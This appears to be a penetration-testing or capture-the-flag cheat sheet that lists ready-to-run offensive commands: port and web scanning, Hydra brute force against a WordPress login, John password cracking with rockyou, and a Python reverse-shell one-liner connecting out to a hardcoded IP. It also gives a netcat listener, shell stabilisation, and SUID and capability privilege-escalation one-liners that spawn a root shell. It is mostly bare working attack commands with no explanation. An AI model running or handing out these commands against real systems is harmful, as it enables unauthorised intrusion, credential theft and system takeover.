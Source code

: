 # Port Enumeration

## NMAP
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN scans/nmap/initial $IP
nmap -v -p- -oN scans/nmap/all_ports $IP
```





# Web Tools

## Gobuster
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```

## FUFF
```bash
fuff -u http://$IP/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


# Brute Force

## Hydra
```bash
# Format
# sudo hydra -L <Username/List> -P <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

sudo hydra -l Username -P passwordlist.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"
```

## John
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-MD5 hash.txt
```





# Reverse Shell

## Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -lvnp 9999
```

## Stable
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```






# Privilege Escalation

## Finding SUID
```bash
find / -perm -u=s -type f 2> /dev/null
```

## Finding Capabilities
```bash
getcap -r / 2>/dev/null
```

## Tools

### NMAP
```bash
nmap --interactive
!sh
```

### PERL - Capabilities
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```




# Image tools

## STEGHIDE
```bash
steghide extract -sf image.jpg
```



# Useful Websites
- https://gtfobins.github.io/
- https://github.com/JohnHammond/poor-mans-pentest
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
